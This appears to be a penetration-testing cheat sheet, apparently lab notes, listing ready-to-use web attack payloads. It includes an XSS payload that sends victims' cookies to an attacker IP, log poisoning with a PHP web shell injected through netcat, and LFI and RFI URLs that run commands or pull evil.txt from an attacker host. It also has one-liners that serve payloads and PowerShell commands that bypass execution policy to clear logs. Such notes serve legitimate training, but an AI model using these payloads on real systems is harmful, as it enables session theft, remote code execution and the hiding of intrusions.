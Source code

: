 #### XSS

`<script>new Image().src="http://10.11.0.4/cool.jpg?output="+document.cookie;</script>`

`powershell -ExecutionPolicy Bypass -File clear_logs.ps1`

`powershell -ExecutionPolicy Bypass -File admin_login.ps1`

### LOG POISONING

```
nc -nv 10.11.0.22 80
(UNKNOWN) [10.11.0.22] 80 (http) open
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>

```
### LFI

`http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig`

### Running a server

`<?php echo shell_exec($_GET['cmd']); ?>`

`python -m SimpleHTTPServer 7331`

`python3 -m http.server 7331`

`php -S 0.0.0.0:8000`

`ruby -run -e httpd . -p 9000`

`busybox httpd -f -p 10000`

### PHP data wrapper used with LFI

`http://192.168.175.10/menu.php?file=data:text/plain,%3C?php%20echo%20shell_exec(%22dir%22)%20?%3E`

### RFI

`http://192.168.175.10/menu2.php?cmd=ipconfig&file=http://192.168.119.175/evil.txt?`

`http://192.168.175.10/menu.php?cmd=ipconfig&file=http://192.168.119.175/evil.txt`



